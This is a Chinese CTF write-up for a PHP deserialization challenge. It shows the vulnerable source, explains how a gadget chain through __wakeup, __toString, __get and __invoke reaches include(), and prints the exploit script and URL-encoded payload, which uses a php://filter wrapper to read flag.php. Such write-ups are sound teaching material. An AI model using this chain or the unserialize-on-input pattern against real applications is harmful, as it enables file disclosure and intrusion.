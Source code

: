 ## 圣杯战争

***

出题人:fpclode

![image-20240413223510221](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413223510221.png)

源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);

class artifact{
    public $excalibuer;
    public $arrow;
    public function __toString(){
        echo "为Saber选择了对的武器!<br>";
        return $this->excalibuer->arrow;
    }
}

class prepare{
    public $release;
    public function __get($key){
        $functioin = $this->release;
        echo "蓄力!咖喱棒！！<br>";
        return $functioin();
    }
}
class saber{
    public $weapon;
    public function __invoke(){
        echo "胜利！<br>";
        include($this->weapon);
    }
}
class summon{
    public $Saber;
    public $Rider;

    public function __wakeup(){
        echo "开始召唤从者！<br>";
        echo $this->Saber;
    }
}

if(isset($_GET['payload'])){
    unserialize($_GET['payload']);
}
?> 

```

发现是一个php反序列化。

分析：

源码中回自动对用户传入的数据进行反序列化，则就会触发__wakeup()方法。此时，又会执行到

\$this-\>Saber 语句，从而触发 \_toString() 方法，然后又会执行到 return \$this-\>excalibuer-\>arrow; 语

句，从而触发 \_get() 方法。此时又会执行到 return \$functioin(); 语句，从而触发 \_invoke() 方法，然后

执行我们想要的 include()函数。再结合文件包含的伪协议知识，即可获得flag。

```php
<?php
class artifact{
    public $excalibuer;
    public $arrow;
}

class prepare{
    public $release;

}
class saber{
    public $weapon = "pHp://FilTer/convert.base64-encode/resource=flag.php";
}
class summon{
    public $Saber;
    public $Rider;

}
$a = new artifact();
$b = new prepare();
$c = new saber();
$d = new summon();
$b -> release = $c;
$a -> excalibuer = $b;
$d -> Saber = $a;

echo urlencode(serialize($d));
?>

```

运行即可获得payload

```
O%3A6%3A%22summon%22%3A2%3A%7Bs%3A5%3A%22Saber%22%3BO%3A8%3A%22artifact%22%3A2%3A%7Bs%3A10%3A%22excalibuer%22%3BO%3A7%3A%22prepare%22%3A1%3A%7Bs%3A7%3A%22release%22%3BO%3A5%3A%22saber%22%3A1%3A%7Bs%3A6%3A%22weapon%22%3Bs%3A52%3A%22pHp%3A%2F%2FFilTer%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7Ds%3A5%3A%22arrow%22%3BN%3B%7Ds%3A5%3A%22Rider%22%3BN%3B%7D

```

传参获得flag.php的base.64编码，解码获得flag。